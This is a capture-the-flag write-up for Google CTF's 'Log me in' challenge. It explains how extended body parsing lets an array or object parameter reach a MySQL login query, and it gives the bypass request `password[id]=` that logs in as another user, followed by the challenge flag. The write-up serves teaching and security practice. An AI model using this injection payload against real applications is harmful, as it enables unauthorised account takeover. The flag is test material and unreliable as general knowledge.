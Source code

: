 # Google CTF Log me in

**tl;dr**

+ 
+ 
+ 



**Challenge points**: 
**No. of solves**: 
**Challenge Author**: [m0n574](https://twitter.com/m0n574)

## Challenge description
Log in to get the flag


## Initial analysis
We are provided with an application which has the functionalities to login, view profile, About and view Flag. We are able to login as username: admin and password: admin but we are not able to get use the flag functionality since it says `Only Michelle's account has the flag` =_=

We were also provided with a source code and one of the main thing to notice is `app.use(bodyParser.urlencoded({extended: true}))` and we can send sql params as arrays and it will be parsed. In the cookies there was session cookie with the value `eyJ1c2VybmFtZSI6ImFkbWluIiwiZmxhZyI6IjxzcGFuIGNsYXNzPXRleHQtZGFuZ2VyPk9ubHkgTWljaGVsbGUncyBhY2NvdW50IGhhcyB0aGUgZmxhZzwvc3Bhbj4ifQ==` decoded as {"username":"admin","flag":"<span class=text-danger>Only Michelle's account has the flag</span>"} and session.sig.

So what we had to do was to find michelles session and session.sig and get the flag.

![one](one.png)

When we pass the request as `username[]=a&username[]=b&password[]=c&password[]=d&csrf=` we get the error:
Unknown error: Error: ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near &#39; &#39;b&#39; and password = &#39;c&#39;, &#39;d&#39; order by id&#39; at line 1

When we finally send the request as `username=Michelle&password[id]=&csrf=` we get michelles session and session.sig 

![two](two.png)

After that when we give to the admin|admin cookies, we will be able to access the flag
 

![three](three.png)



## Flag

**FLAG**: `CTF{a-premium-effort-deserves-a-premium-flag}`

For further queries, please DM me on Twitter: <https://twitter.com/m0n574>.